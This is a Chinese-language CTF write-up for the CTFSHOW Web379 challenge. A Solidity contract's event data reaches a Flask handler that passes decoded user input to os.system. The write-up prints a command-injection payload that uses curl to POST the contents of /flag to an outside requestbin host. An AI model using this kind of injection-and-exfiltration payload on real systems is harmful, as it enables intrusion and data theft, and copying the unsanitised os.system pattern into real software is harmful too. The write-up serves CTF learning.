


# [WP]CTFSHOW-Web379

首先题目给出了漏洞利用代码

合约如下：

```
pragma solidity ^0.4.24;

contract Ctfshow {
    event victory(string b64email,string slogan); 
    
    function getFlag(string b64email) public {
        emit victory(b64email, "tql");
    }
}
```

Flask代码如下

```
@app.route('/flag')
def app_flag():
	event()
	return render_template_string('flush done')

def event():
	w3 = Web3(Web3.HTTPProvider(rpc))
	flag_logs = w3.eth.getLogs({
			"address":contract_address,
			"topic0":contract_topic0
		})
	if flag_logs is not []:
		for flag_log in flag_logs:
			data = flag_log["data"][2:]
			length = int(data[64*2:64*3].replace('00', ''),16)
			data = data[64*3:][:length*2]
			user = binascii.unhexlify(data).decode('utf-8')
			try:
				username = base64.b64decode(user).decode('utf-8')
				os.system('echo '+username+' >>/app/user.txt')
			except:
				errmsg = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())+":decode or send to b64 - {} 2 {} fail".format(user,username)
				print(errmsg)
```

简单的代码审计便是我们需要通过控制这里的参数`user`来实现RCE，经过我的测试这个题目无回显，所以我们采用带外输出，下面给出未编码payload：

```
1;curl -X POST -d "flag=`cat /flag`" http://requestbin.net/r/1j4264j1;echo aa
```

step1:



step2:



step3:

有个神奇的点就是在成功后，需要多访问`url/flag`十几次(原理是RPC远程调用，是和区块链的原理有关，这我就不懂了)，然后去requestbin收取flag就好啦


# 参考文章

[以太坊智能合约安全入门了解一下](http://rickgray.me/2018/05/17/ethereum-smart-contracts-vulnerabilities-review/)

[智能合约攻击面及ctf出题指南](https://doublemice.github.io/%E6%99%BA%E8%83%BD%E5%90%88%E7%BA%A6%E6%94%BB%E5%87%BB%E9%9D%A2%E5%8F%8Actf%E5%87%BA%E9%A2%98%E6%8C%87%E5%8D%97/)

[CTF中智能合约部署交互基础](https://blog.csdn.net/qq_41429081/article/details/104321258)

[一个区块链的在线IDE](http://remix.ethereum.org/)